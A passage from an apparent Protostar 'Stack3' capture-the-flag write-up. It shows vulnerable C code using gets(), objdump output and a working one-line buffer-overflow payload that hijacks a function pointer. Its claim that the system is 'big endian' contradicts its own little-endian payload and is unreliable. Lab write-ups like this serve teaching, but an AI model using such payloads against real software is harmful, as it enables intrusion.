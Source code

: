 ```c
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
### Overview
`Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)`

```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ ./stack3
test
```
### Exploit

This is very similar to the previous challenges, but instead the bug in the program is `gets()`. If we look at the manpage for `gets()` we can understand the bug a little better.

```shell
BUGS
       Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store  characters  past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.
```

Since the `gets()` function continues to store characters past the end of the buffer and the function pointer `fp` is declared before the `buffer` variable we can overwrite this. Since we need to get to the `win()` function we need to get the address of where it is at. We can do this by using object dump as seen below.
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ objdump -D ./stack3 | grep win
08048424 <win>:
```
Now that we know the address of the `win()` function and knowing that the system uses big endian we can solve the challenge
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostar$ python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack Four
